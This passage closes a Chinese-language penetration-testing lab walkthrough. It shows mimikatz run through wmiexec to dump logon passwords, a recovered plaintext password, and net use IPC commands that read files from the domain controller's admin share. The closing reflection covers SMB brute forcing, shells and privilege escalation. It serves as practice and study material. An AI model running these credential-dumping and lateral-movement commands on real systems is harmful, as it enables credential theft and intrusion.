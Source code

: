 ![image-20221012145048855](images/48.png)

![image-20221012145108143](images/49.png)

上传成功，上传后用wmiexec执行

```
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit" > log.log
```

![image-20221012145547526](images/50.png)

![image-20221012145601230](images/51.png)

抓取到密码zxcASDqw123!!

# IPC连接

IPC（Internet Process Connection）是共享“命名管道”的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限，在远程管理计算机和查看计算机的共享资源时使用。利用IPC连接者可以与目标主机建立一个连接，得到目标主机上的目录结构、用户列表等信息。

利用条件：

1. 管理员开启了默认共享
2. 139或445端口开放

建立IPC远程连接读取域控上的文件

```
net use \\192.168.93.10\admin$ zxcASDqw123!! /user:test\administrator   #系统默认路径c:\windows\下
dir \\192.168.93.10\C$\users\administrator\Documents
type \\192.168.93.10\C$\users\administrator\Documents\flag.txt
```

这次的渗透过程差不多就到这里



# 写在最后

​    对于渗透，思路都有了一定的了解后就是实战，一些工具的利用，正向和反向socks代理的应用，之前都是通过永恒之蓝拿下的域控，这次有了另外的思路，那就是通过爆破smb密码（需要一定的字典），通过SMB登陆可以上传文件，不用上线CS，单用msf就完成mimikatz进行密码抓取，这次还学到了linux的木马生成，之前都是直接上线windows，还有对于linux系统提权的问题，绕过用的蚁剑需要想办法弹出来一个shell再进行提权，下次打靶机的时候，可以再对权限维持进行一个深入，毕竟拿下来后还需要做一个权限维持最好



参考链接

https://blog.csdn.net/qq_38626043/article/details/119354151

https://blog.csdn.net/weixin_68652890/article/details/124719066

https://cloud.tencent.com/developer/article/2130026

https://www.cnblogs.com/wkzb/p/13281772.html
